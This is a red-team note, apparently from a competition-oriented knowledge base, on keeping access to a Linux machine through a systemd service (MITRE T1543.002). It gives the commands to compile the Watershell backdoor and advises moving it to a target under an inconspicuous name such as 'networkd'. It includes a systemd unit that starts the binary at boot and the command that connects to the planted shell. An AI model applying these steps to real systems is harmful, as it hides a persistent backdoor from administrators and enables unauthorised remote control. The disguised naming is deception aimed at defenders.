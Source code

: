 ```yaml
---
description: MITRE ATT&CK, Persistence, Sub-technique T1543.002
---
```


# Systemd Service Persistence

[Watershell ](https://github.com/RITRedteam/watershell-cpp)is an incredible script that I came across from a fellow red teamer during CCDC Regionals. I highly recommend reading the [original GitHub](https://github.com/wumb0/watershell) to learn more about the tool and why I fell in love with it.&#x20;

General steps for persistence with Watershell:

1. Compile the binary:&#x20;

```bash
g++ main.cpp watershell.cpp -o ${INSERT_BINARY_NAME}
```

2\. Note: You can edit the default port that the binary uses in the main.cpp and watershell.cpp files prior to comilation.

3\. Transfer the binary to the targets system, I recommend naming the binary something inconspicuous such as `networkd` or `ipv6_conf`

4\. Setup a service to execute the binary, the following demonstrates an example configuration:

```bash
[Unit]
Description=persistence

[Service]
Type=simple
ExecStart=/bin/networkd

[Install]
WantedBy=multi-user.target
```

1. Connect to the target using `watershell-cli.py` using the following command:\
   `python3 watershell-cli.py -t [IP] -p [PORT]`

### References

{% embed url="https://redcanary.com/blog/attck-t1501-understanding-systemd-service-persistence" %}
